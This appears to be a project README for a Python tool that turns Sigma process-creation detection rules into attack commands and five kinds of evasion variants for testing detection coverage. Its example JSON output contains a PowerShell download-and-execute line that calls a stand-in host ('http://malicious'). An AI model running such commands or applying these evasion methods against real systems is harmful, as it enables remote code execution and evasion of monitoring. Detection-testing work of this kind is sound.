 # 🛠️ Evasion Command Generator – `attack_convert/`

This tool is designed to **generate original and evasion attack commands** based on Sigma rules from the `process_creation` category. It supports five evasion techniques and exports the result in JSON format for further analysis or simulation.

---

## 📁 Folder Structure

```plaintext
Sigma-automation/
├── src/
│   ├── attack_convert/
│   │   ├── main.py                    # Entry point to generate evasion commands
│   │   ├── count_successful_rules.py  # Statistics for rule parsing
│   │   ├── utils/
│   │   │   ├── parser.py              # Extracts command line from Sigma rule
│   │   │   ├── evasions_core.py       # Main controller for all evasion techniques
│   │   │   └── evasions/
│   │   │       ├── insertion.py       # Evasion technique: Insertion
│   │   │       ├── substitution.py    # Evasion technique: Substitution
│   │   │       ├── omission.py        # Evasion technique: Omission
│   │   │       ├── reordering.py      # Evasion technique: Reordering
│   │   │       ├── recoding.py        # Evasion technique: Recoding
│   │   │       └── substitution_mapping.json  # Command substitution mappings
│   │   └── Evasion-Results/           # Generated attack commands
├── data/
│   ├── rules/
│   │   └── windows/
│   │       └── process_creation/      # Sigma rules
│   └── evasion_possible_rules.txt     # List of rules to process
└── output/
    └── results/                       # Analysis results
```

---

## 🚀 How to Run

### 1. Prepare Input

- Place all Sigma rule files (`.yml`) in:

  ```plaintext
  data/rules/windows/process_creation/
  ```

- Create a file `data/evasion_possible_rules.txt` listing rules (by filename without `.yml`) that should be processed for evasion.

---

### 2. Run the Tool

> From the **project root** (`Sigma-automation/`):

#### Windows Command Prompt (CMD)

```cmd
set PYTHONPATH=%CD%
python -m src.attack_convert.main
```

#### PowerShell

```powershell
$env:PYTHONPATH = $PWD
python -m src.attack_convert.main
```

---

## 📤 Output

- Generated files will be saved to:

  ```plaintext
  src/attack_convert/Evasion-Results/
  ```

- Each `.json` result includes:
  - The original attack command
  - Five evasion variations:
    - `insertion`
    - `substitution`
    - `omission`
    - `reordering`
    - `recoding`

---

### 📄 Example Output

```json
{
  "rule_name": "suspicious_powershell_0",
  "original_command": "powershell.exe -Command \"IEX(New-Object Net.WebClient).DownloadString('http://malicious')\"",
  "evasions": {
    "insertion": "powershell.exe -Command \"<obfuscated-inserted-command>\"",
    "substitution": "powershell.exe -c \"<alias-used-command>\"",
    "omission": "powershell.exe \"<command with removed parameters>\"",
    "reordering": "powershell.exe \"<reordered arguments>\" -Command",
    "recoding": "powershell.exe -EncodedCommand <base64-encoded-command>"
  }
}
```

---

## 📦 Requirements

- Python 3.10+
- Install dependencies:

```bash
pip install pyyaml
```

---

## ✅ Notes

- Make sure your working directory is the **project root**, not inside `src/attack_convert/`.
- `PYTHONPATH` must point to the root folder to allow relative imports.
- The tool uses relative paths, so it will work regardless of where the project is located on your system.
